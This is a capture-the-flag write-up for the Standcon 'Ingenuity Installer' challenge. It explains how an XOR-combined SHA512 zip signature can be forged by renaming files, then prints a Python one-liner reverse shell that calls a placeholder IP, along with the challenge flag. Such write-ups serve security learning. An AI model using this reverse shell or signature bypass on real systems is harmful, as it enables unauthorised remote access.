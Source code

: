 ```yaml
---
layout: single
title:  "Ingenuity Installer"
date:   2021-07-24 12:05:00 +0800
categories: standcon-2021
permalink: /standcon-2021/ingenuity-installer
---
```


This is a challenge from Cryptography section of Standcon 2020. The challenge wants us to forge a signature of a zip file.

## Statement

>I've always wanted to drive a vehicle on another planet! I found the website they used to install software on Ingenuity. Could you help me get access to it pretty please?

<button class="collapsible btn" id="data">software-installer.py</button>

<div class="content" id="datadata" style="display:none" markdown="1">

```python
from shutil import rmtree
import subprocess
import zipfile

from Crypto.Hash import SHA512
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1_v1_5

SETUP_FILE = 'setup_script.py'
SIGNATURE_FILE = 'signature.bin'
ZIP_DIR = 'firmware/'


# Checks if signature is correct
class Signature:
    def __init__(self, zip_filename='ingenuity_software-38575ea.zip'):
        self.zip_filename = zip_filename

        self._updateDir()

    def __del__(self):
        self.zip.close()

    def _updateDir(self):
        self.zip = zipfile.ZipFile(self.zip_filename, 'r')
        self.files = self.zip.namelist()

    def _checkValid(self):
        assert ZIP_DIR + SETUP_FILE in self.files
        assert ZIP_DIR + SIGNATURE_FILE in self.files

    def _xor(self, str1, str2):
        assert len(str1) == len(str2)
        return bytes((b1 ^ b2 for b1, b2 in zip(str1, str2)))

    def _calculateHash(self):
        try:
            self.files.remove(ZIP_DIR + SIGNATURE_FILE)
        except:
            pass

        final = b'\x00' * 64
        for file in self.files:
            contents = self.zip.read(file)
            h = SHA512.new(data=file.encode())
            h.update(contents)
            final = self._xor(final, h.digest())

        self.files = self.zip.namelist()

        return final

    def _signFiles(self, hash, priv='private_key.der'):
        key = RSA.import_key(open(priv, 'rb').read())

        digest = SHA512.new(hash)

        return PKCS1_v1_5.new(key).sign(digest)

    def _verifySignature(self, hash, pub='static/keys/public_key.der'):
        key = RSA.import_key(open(pub, 'rb').read())

        return PKCS1_v1_5.new(key).verify(SHA512.new(hash), self.zip.read(ZIP_DIR + SIGNATURE_FILE))

    def genSig(self, write=True):
        try:
            hash = self._calculateHash()
            sig = self._signFiles(hash)

            if write is True:
                with zipfile.ZipFile(self.zip_filename, 'a') as zipW:
                    zipW.writestr(data=sig, zinfo_or_arcname=ZIP_DIR + SIGNATURE_FILE)
        except:
            print('Something went wrong')
            return False

        self.zip.close()
        self._updateDir()

        return sig

    def checkSig(self):
        try:
            self._checkValid()
        except:
            print('setup_script.py or signature.bin missing!')
            return False

        try:
            hash = self._calculateHash()
            return self._verifySignature(hash)
        except:
            print('Something went wrong')
            return False


# Checks if zip file is legit
def checkZip(file):
    return zipfile.is_zipfile(file)


# Runs setup script if signature is valid
def runSetup(zip):
    path = zip.filename[:-4] + '/'
    zip.extractall(path=path)
    subprocess.run(['python', SETUP_FILE], cwd=path + ZIP_DIR)
    rmtree(path)
    
```
</div>

## Observation

First thing to do is to try to break the public key. It might be misconfigured RSA.

We can use [RSACtfTool](https://github.com/Ganapati/RsaCtfTool) to do this. But unfortunately, it is not vulnerable.

Usually if the private key is not retrivable, the only thing left for us to do is to try and exploit the hash function.

Observe that the hash function works by xor the hash for every files in the zip... This looks sus

## Solution

And indeed it is vulnerable! The idea is to create two identical file so that their hash will be cancelled after xor both of them together.

But how do we create 2 identical file? As we have the restriction to not able to create 2 files with the same name...

Let's check the hash again, 

```python
contents = self.zip.read(file)
h = SHA512.new(data=file.encode())
h.update(contents)
```

This means that it is actually doing `hash(file.encode() + file.content())`.

And `file.encode()` is just the filepath of the file!

So we can just modify the filename to create 2 files with the same hash!

Example:

If we have a file

`setup_script.py`
```python
print('hello')
```

The hash will be `hash('setup_script.py' + 'print('hello')')`

The identical file can be

`setup_scr`
```python
ipt.pyprint('hello')
```

The hash will be `hash('setup_scr' + 'ipt.pyprint('hello')')`

These 2 files will have the same hash!

The challenge also provided us a valid zip with a valid signature. We need to insert our own setup_script.py with a reverse shell script to gain access to the server.

So how do we do with the old `setup_script.py`?

Modify the filename!

Reverse shell script

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",12321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

In the end we get the shell and find the flag first with this command

`find / -name "flag*" 2>/dev/null`

Then we cat out the flag.

flag : `STC{my_b4773ry_15_l0w_4nd_175_63771n6_d4rk}`

